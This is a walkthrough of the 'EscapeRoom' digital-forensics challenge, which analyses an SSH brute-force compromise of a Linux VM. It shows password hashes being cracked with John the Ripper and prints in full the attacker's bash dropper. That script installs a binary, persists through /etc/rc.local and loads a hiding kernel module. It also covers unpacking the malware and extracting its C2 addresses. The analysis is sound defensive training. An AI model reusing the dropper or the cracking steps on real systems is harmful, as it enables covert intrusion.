




# EscapeRoom

## Info

- Category : Digital Forensics
- SHA1SUM : 4dd5e257c4bef0f950a37bb1e401f3dd990929bf
- Published : Aug. 18, 2020, midnight
- Author : The HoneyNet Project
- Size : 15 MB
- Tags : PCAP Wireshark Linux Network

Unzip the challenge (pass: cyberdefenders.org) and use your analysis tools to examine provided PCAPs and log files.

### Scenario

You as a soc analyst belong to a company specializing in hosting web applications through KVM-based Virtual Machines. Over the weekend, one VM went down, and the site administrators fear this might be the result of malicious activity. They extracted a few logs from the environment in hopes that you might be able to determine what happened.

This challenge is a combination of several entry to intermediate-level tasks of increasing difficulty focusing on authentication, information hiding, and cryptography. Participants will benefit from entry-level knowledge in these fields, as well as knowledge of general Linux operations, kernel modules, a scripting language, and reverse engineering. Not everything may be as it seems. Innocuous files may turn out to be malicious so take precautions when dealing with any files from this challenge.

### Helpful Tools

- Wireshark
- NetworkMiner
- BrimSecurity
- UPX
- IDA

---

## Questions

### Q1 - What service did the attacker use to gain access to the system?

It's not easy to differentiate successful versus failed login attempts in Wireshark. However, some features of the traffic can help to reveal whether or not an attempted authentication is successful :
1. Flow length: A successful authentication attempt will result in a longer session than a failed
2. Packet size: SSH servers have set responses for successful and failed authentications. Observing the length of the SSH packets can show whether authentication succeeded or failed.
3. Packet timing: Packets that require user interaction will take longer than automated ones, making them easier to detect

`Statistics > Conversations > TCP tab`



**Answer : ssh**

### Q2 - What attack type was used to gain access to the system?(one word)

With statistics we can see lot of failed. We can deduce ssh-bruteforce attack.

**Answer : bruteforce**

### Q3 - What was the tool the attacker possibly used to perform this attack?

**Answer : hydra**

### Q4 - How many failed attempts were there?

With statistics we can see 54 TCP conversation (all on the port 22) minus 2 success attempts = 52 failed attempts.

**Answer : 52**

### Q5 - What credentials (username:password) were used to gain access? Refer to shadow.log and sudoers.log.

In `shadow.log`, we get hashed password. 

```shell
john --wordlist=../../wordlist/rockyou.txt shadow.log 
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 11 password hashes with 11 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
forgot           (manager)
god              (gibson)
spectre          (sean)

```

**Answer : manager:forgot**

### Q6 - What other credentials (username:password) could have been used to gain access also have SUDO privileges? Refer to shadow.log and sudoers.log.

Refer to the previous question.

```shell
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL
guest	ALL=(ALL) ALL
manager	ALL=(ALL) ALL
sean	ALL=(ALL) ALL
roger	ALL=(ALL) ALL
pierce	ALL=(ALL) ALL
```

**Answer : sean:spectre**

### Q7 - What is the tool used to download malicious files on the system?

In the PCAP, after all ssh request we can see TCP request on port 80 (we can guess HTTP traffic). `Follow TCP stream`



**Answer : wget**

### Q8 - How many files the attacker download to perform malware installation?

`Export Objects > HTTP`



**Answer : 3**

### Q9 - What is the main malware MD5 hash?

```shell
file *          
1:                                                          ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
2:                                                          ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=21064e0e38e436aa28aecd2612f20205977b3826, with debug_info, not stripped
3:                                                          Bourne-Again shell script, ASCII text executable
```

```shell
cat 3

#!/bin/bash

mv 1 /var/mail/mail
chmod +x /var/mail/mail
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
nohup /var/mail/mail > /dev/null 2>&1&
mv 2 /lib/modules/`uname -r`/sysmod.ko
depmod -a
echo "sysmod" >> /etc/modules
modprobe sysmod
sleep 1
pidof mail > /proc/dmesg
rm 3
```

```shell
md5sum 1-ELF 2-ELF 3-script 
772b620736b760c1d736b1e6ba2f885b  1-ELF
2f41df5a12a1f64e47dede21f1c47326  2-ELF
dadbb7fe0577d016bb825d3c59dc3715  3-script
```

**Answer : 772b620736b760c1d736b1e6ba2f885b**

### Q10 - What file has the script modified so the malware will start upon reboot?

In Linux, the /etc/rc.local file is a system initialization script that is executed during the boot process. It is typically used to run custom commands or scripts that need to be executed automatically at system startup.

The nohup command stands for "no hangup." It is used to run a command or script in the background, even if the user logs out or terminates their session. When you run a command with nohup, it prevents the command from being terminated when the terminal session ends. Any output generated by the command is redirected to a file called "nohup.out" by default.

**Answer : /etc/rc.local**

### Q11 - Where did the malware keep local files?

According to the bash script file.

**Answer : /var/mail/**

### Q12 - What is missing from ps.log?

The `1-ELF` file renamed and move to `/var/mail/mail` must be launch.

**Answer : /var/mail/mail**

### Q13 - What is the main file that used to remove this information from ps.log?

In Linux, the /etc/modules file is a configuration file that lists kernel modules to be loaded at system startup. According to the bash script file. we can see that the file 2-ELF is stored in the “/etc/modules” folder as `sysmod.ko`

In resume, `1-ELF` and `3-scripts` so we can deduce that `2-ELF` is used to clean informations about `1-ELF`.

**Answer : sysmod.ko**

### Q14 - Inside the Main function, what is the function that causes requests to those servers?

We need to focus on `1-ELF`.

```shell
strings 1-ELF

UPX!
'@6!O
9,!O
7Q;l
/lib64
nux-x86-
so.2
[...]
PROT_EXEC|PROT_WRITE failed.
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.08 Copyright (C) 1996-2011 the UPX Team. All Rights Reserved. $
_j<X
j2AZE)
/proc/self/exe
```

We got an interesting information : **This file is packed with the UPX executable packer http://upx.sf.net**

> UPX Unpacker to unpack files compressed with UPX by Oberhumer, Molnár & Reiser (see upx.github.io).

```shell
upx   
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2023
UPX git-33cdcb+ Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 30th 2023

Usage: upx [-123456789dlthVL] [-qvfk] [-o file] file..

Commands:
  -1     compress faster                   -9    compress better
  -d     decompress                        -l    list compressed file
  -t     test compressed file              -V    display version number
  -h     give more help                    -L    display software license
Options:
  -q     be quiet                          -v    be verbose
  -oFILE write output to 'FILE'
  -f     force compression of suspicious files
  -k     keep backup files
file..   executables to (de)compress

Type 'upx --help' for more detailed help.

UPX comes with ABSOLUTELY NO WARRANTY; for details visit https://upx.github.io
```

Get more informations :

```shell
upx -V -L -d 1-ELF
upx 4.0.2
UCL data compression library 1.03
zlib data compression library 1.2.13.1-motley
LZMA SDK version 4.43
doctest C++ testing framework version 2.4.11
Copyright (C) 1996-2023 Markus Franz Xaver Johannes Oberhumer
Copyright (C) 1996-2023 Laszlo Molnar
Copyright (C) 2000-2023 John F. Reiser
Copyright (C) 2002-2023 Jens Medoch
Copyright (C) 1995-2022 Jean-loup Gailly and Mark Adler
Copyright (C) 1999-2006 Igor Pavlov
Copyright (C) 2016-2021 Viktor Kirilov
UPX comes with ABSOLUTELY NO WARRANTY; for details type 'upx -L'.
```

Decompress :

```shell
upx -d 1-ELF -o 1-ELF-decompress
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2023
UPX git-33cdcb+ Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 30th 2023

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
[WARNING] bad b_info at 0x22a8

[WARNING] ... recovery at 0x22a4

     30222 <-     11164   36.94%   linux/amd64   1-ELF-decompress

Unpacked 1 file.

WARNING: this is an unstable beta version - use for testing only! Really.
```

`Strings + grep` :

```shell
strings 1-ELF-decompress | grep -i request
requestFile
```

**Answer : requestFile**

### Q15 - One of the IP's the malware contacted starts with 17. Provide the full IP.

I make a regex to find IP :

```shell
strings 1-ELF-decompress | grep -Eo '([0-9]{1,3}\.){3}[0-9]{1,3}'
23.20.23.147
23.22.228.174
174.129.57.253
23.21.35.128
```

**Answer : 174.129.57.253**

### Q16 - How many files the malware requested from external servers?

IPs match with BMP files whose are download.


**Answer : 9**

### Q17 - What are the commands that the malware was receiving from attacker servers? Format: comma-separated in alphabetical order



```shell
printf "\x4e\x4f\x50\x00"

NOP%     

---
printf "\x52\x55\x4e\x3a"

RUN:%        
```

**Answer : NOP,RUN**